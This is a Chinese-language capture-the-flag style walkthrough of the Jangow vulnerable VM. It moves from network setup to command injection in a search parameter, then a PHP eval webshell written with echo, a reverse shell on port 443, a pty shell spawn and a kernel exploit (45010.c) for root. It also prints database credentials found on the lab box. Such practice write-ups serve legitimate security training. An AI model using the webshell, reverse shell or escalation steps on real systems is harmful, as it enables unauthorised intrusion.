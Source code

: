 ## Jangow

这里先提前配置一下东西

`这样配置的原因是因为不在一个C段后期的反弹shell监听不到。反正我是这样（我是小白），麻烦大佬勿喷，利用方法有限，正在努力学习中`

这里要用virtualbox打开镜像，在vm里面扫不出来，而且网络设置成仅主机

![image-20220528212145021](vulhub_jangow.assets/image-20220528212145021.png)

攻击机，要设置成桥接模式，外部链接设置virtualbox。

![image-20220528212346612](E:\U盘\靶场\vulhub_jangow.assets\image-20220528212346612.png)

添加两个网络适配器，一个桥接一个NAT，这样前期的配置就ok了

![image-20220528212452787](E:\U盘\靶场\vulhub_jangow.assets\image-20220528212452787.png)

这样将靶机和攻击机打开可以看到在一个C段了

攻击机：192.168.56.102

靶机：192.168.56.101

![image-20220528213001680](E:\U盘\靶场\vulhub_jangow.assets\image-20220528213001680.png)![image-20220528213030932](E:\U盘\靶场\vulhub_jangow.assets\image-20220528213030932.png)

然后就是正常的扫描目标机的开放端口

![image-20220528213259257](E:\U盘\靶场\vulhub_jangow.assets\image-20220528213259257.png)

开放了80端口，访问一下看看

![image-20220528213558163](E:\U盘\靶场\vulhub_jangow.assets\image-20220528213558163.png)

进入site挨个地方都点了一下，发现Buscar后面没有参数

![image-20220528213649257](E:\U盘\靶场\vulhub_jangow.assets\image-20220528213649257.png)

![image-20220528213724735](E:\U盘\靶场\vulhub_jangow.assets\image-20220528213724735.png)

经过尝试发现是命令执行

![image-20220528214143016](E:\U盘\靶场\vulhub_jangow.assets\image-20220528214143016.png)

看到有个busque.php的文件，cat看一下内容

额。。。

![image-20220528214214683](E:\U盘\靶场\vulhub_jangow.assets\image-20220528214214683.png)

继续，我们使用echo 上传一下马

```shell
echo '<?php @eval($_POST['shell']);?>' >> webshell.php
```

![image-20220528214607251](E:\U盘\靶场\vulhub_jangow.assets\image-20220528214607251.png)![image-20220528214617296](E:\U盘\靶场\vulhub_jangow.assets\image-20220528214617296.png)

连接一下

![image-20220528214712921](E:\U盘\靶场\vulhub_jangow.assets\image-20220528214712921.png)

看一下根目录没有发现flag，猜测可能在root目录下，我们没有访问权限

然后先随便翻一下发现了两个账号密码

![image-20220528220401725](E:\U盘\靶场\vulhub_jangow.assets\image-20220528220401725.png)![image-20220528220419499](E:\U盘\靶场\vulhub_jangow.assets\image-20220528220419499.png)

我们用php反弹一下shell

参考地址：https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

在连接工具中改完脚本中的IP和端口后访问这个webshell文件并且监听443端口，

![image-20220528223110863](E:\U盘\靶场\vulhub_jangow.assets\image-20220528223110863.png)

`不知道为什么这里只能443，这里看了wp才知道只能443，有知道的师傅麻烦解惑一下，万分感谢！`

![image-20220528220038356](E:\U盘\靶场\vulhub_jangow.assets\image-20220528220038356.png)

查看一下权限发现是`www-data`权限

![image-20220528220630074](E:\U盘\靶场\vulhub_jangow.assets\image-20220528220630074.png)

切换交互bash

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

我们发现是ubuntu 4.4.0版本

![image-20220528221449553](E:\U盘\靶场\vulhub_jangow.assets\image-20220528221449553.png)

使用searchsploit找一下提权文件

![image-20220528221416728](E:\U盘\靶场\vulhub_jangow.assets\image-20220528221416728.png)

下载一下这个45010.c的文件

![image-20220528221541685](E:\U盘\靶场\vulhub_jangow.assets\image-20220528221541685.png)

因为前期找到了两个账号

```shell
账号1：
$servername = "localhost";
$database = "jangow01";
$username = "jangow01";
$password = "abygurl69";
// Create connection
$conn = mysqli_connect($servername, $username, $password, $database);
// Check connection
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}
echo "Connected successfully";
mysqli_close($conn);



账号2：
<?php
$servername = "localhost";
$database = "desafio02";
$username = "desafio02";
$password = "abygurl69";
// Create connection
$conn = mysqli_connect($servername, $username, $password, $database);
// Check connection
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}
echo "Connected successfully";
mysqli_close($conn);
?>
```

又因为开启了21端口，使用ftp连接一下发现账号2连接不上只有账号1能连接上

![image-20220528221942249](E:\U盘\靶场\vulhub_jangow.assets\image-20220528221942249.png)

好像连上没有什么卵用

回到刚才监听的界面使用ssh连接一下

![image-20220528222534561](E:\U盘\靶场\vulhub_jangow.assets\image-20220528222534561.png)

这里解析一下刚才下得45010.c

![image-20220528222716991](E:\U盘\靶场\vulhub_jangow.assets\image-20220528222716991.png)

然后运行一下`exp_shell`

![image-20220528222756515](E:\U盘\靶场\vulhub_jangow.assets\image-20220528222756515.png)

查看一下`root`目录

![image-20220528222838887](E:\U盘\靶场\vulhub_jangow.assets\image-20220528222838887.png)

得到答案

![image-20220528222857379](E:\U盘\靶场\vulhub_jangow.assets\image-20220528222857379.png)